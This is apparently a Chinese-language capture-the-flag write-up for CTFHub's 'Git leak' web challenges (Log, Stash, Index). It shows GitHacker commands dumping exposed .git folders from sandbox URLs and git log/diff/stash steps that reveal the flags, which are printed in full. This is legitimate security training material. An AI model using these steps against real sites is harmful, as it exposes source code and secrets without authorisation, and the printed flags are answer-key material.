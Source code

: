 ```yaml
---
title: Web - Git 泄露
description: CTFHub | 技能树 | Web
---
```


## 题目

当前大量开发人员使用 git 进行版本控制，对站点自动部署。如果配置不当,可能会将 .git 文件夹直接部署到线上环境。这就引起了 git 泄露漏洞。

## Log

### 解题思路

- 使用工具 [WangYihang/GitHacker](https://github.com/WangYihang/GitHacker) 检出 Git 仓库
    ```bash
    $ githacker --url http://challenge-6c68a91f29757be4.sandbox.ctfhub.com:10080/.git/ --folder result
    ```
- 进入检出目录，查看日志信息，当前位于`flag`已经删除的版本
    ```bash
    $ git log
    commit 331d0cdbf0d55ada0ee114851b846705bf19fd99 (HEAD -> master)
    Author: CTFHub <sandbox@ctfhub.com>
    Date:   Thu May 27 06:27:19 2021 +0000

        remove flag

    commit 3db6be0b17e9d3141cfee4d7593d0d1a56bc1e82
    Author: CTFHub <sandbox@ctfhub.com>
    Date:   Thu May 27 06:27:19 2021 +0000

        add flag

    commit 3891bbce49688c80cd02d6bc91953055d249c697
    Author: CTFHub <sandbox@ctfhub.com>
    Date:   Thu May 27 06:27:19 2021 +0000

        init
    ```
- 与`add flag`版本进行比较，差异信息即为 Flag
    ```bash
    $ git diff 3db6be0b17e9d3141cfee4d7593d0d1a56bc1e82
    diff --git a/1380320821329.txt b/1380320821329.txt
    deleted file mode 100644
    index 7bbea29..0000000
    --- a/1380320821329.txt
    +++ /dev/null
    @@ -1 +0,0 @@
    -ctfhub{9b8fffa8e969d3950e8e98ba}
    ```

## Stash

### 解题思路

- 同样地，检出仓库并进入仓库目录
    ```bash
    $ githacker --url http://challenge-942122132ef0c89f.sandbox.ctfhub.com:10080/.git --folder result
    $ cd result/
    ```
- `git stash` 保存本地未提交的修改，并将工作目录恢复到当前 `HEAD` commit 的版本，便于在当前分支修改未提交的情况下切换分支
- 使用 `git stash apply` 恢复，即可获得 Flag 文件
    ```bash
    $ ls
    50x.html  index.html
    $ git stash apply
    冲突（修改/删除）：291731707232651.txt 在 Updated upstream 中被删除，在 Stashed changes 中被 修改。291731707232651.txt 的 Stashed changes 版本被保留。
    $ ls
    291731707232651.txt  50x.html  index.html
    $ cat 291731707232651.txt 
    ctfhub{bb407b064154f284de35ad5c}
    ```

## Index

### 解题思路

- `GitHacker`检出目录后就看到 Flag 文件了（咦 :0）
    ```bash
    $ githacker --url http://challenge-4c0f5006f79ca499.sandbox.ctfhub.com:10080/.git --folder result
    $ cd result/
    $ ls
    2084027691726.txt  50x.html  index.html
    $ cat 2084027691726.txt 
    ctfhub{c4bdf1723804493c9d8d61b3}
    ```
- Git index 作为工作目录和仓库之间的暂存区域，可存储一组修改一并提交